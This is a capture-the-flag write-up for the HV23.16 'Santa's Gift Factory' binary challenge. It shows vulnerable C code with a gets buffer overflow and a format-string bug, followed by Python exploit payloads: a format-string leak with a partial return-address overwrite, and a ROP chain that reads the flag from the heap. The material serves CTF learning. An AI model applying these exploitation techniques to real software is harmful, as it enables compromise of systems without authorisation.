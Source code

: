 ## [HV23.16] Santa's Gift Factory (fabi_07)
### Description
> Did you know that Santa has its own factory for making gifts? Maybe you can exploit it to get your own special gift!
### Solution
When running the binary, you firstly have to complete a simple counting excersise. After this the tellflag function get called which only gives you a little part of the flag, because the rest seems to have been lost. 
```c
void tellflag() {
  char buffer[128];
  FILE *fp = fopen("flag", "r");
  if(fp == NULL) {
    error("Opening flag file failed!!! Please contact the admins.");
  }

  char flag[6];
  int len = fread(flag, 1, 5, fp);
  flag[len] = '\0';

  if(fclose(fp) < 0) {
    error("Closing flag file failed!!! Please contact the admins.");
  }

  system("./magic.sh");

  char* name = getstr("Santa: One last thing, can you tell me your name?");
  printf("\nSanta: Let me see. Oh no, this is bad, the flag vanished before i could read it entirely. All I can give you is this: %s. I am very sorry about this and would like to apologise for the inconvenience.\n", flag);
  gets("\nSanta: Can I assist you with anything else?", buffer);
  printf("\nSanta: You want me to help you with ");
  printf(buffer);
  puts("?\nSanta: I will see what I can do...");
}
```
But when searching in the process memory, you can find the flag in a chunk on the heap. Additionally there is a bufferoverflow with gets and a formatstring vulnerability. But as the formatstring leak is after the bufferoverflow it is not possible to directly use the leak. To fix this you can extend the formatstring payload to overwrite the lowest byte of the return address which causes the tellflag function to be executed a second time.
```py
payload1 = flat({0:b'%p '*50, 167:chr(0x9b).encode()})          # formatstring vuln and override lowest byte of return address to run tellflag twice
```
As i wasn't able to find a heap address in the leak, i just called the getstr function which returns a heap pointer. With the help of a add gadget and printf you can read the flag from the heap.
```py
    # rop-chain: 'pop rsi' 'buffer_address' 'pop rdi' 'buffer_address' 'getstr' 'pop rdx' 'heap offset' 'add rax, rdx' 'error+43'
    payload = flat({168:[0x2573e+libc, 0x1F690+stack, 0x240e5+libc, 0x1F690+stack, 0x139D+-0xf+function, 0x26302+libc, pack(-0x26E-0x180, 64), 0x76a7a+libc, 0x130E+function, 0x1354+function]})
```
A complete solve.py can be found [here](Playtest/solve.py).
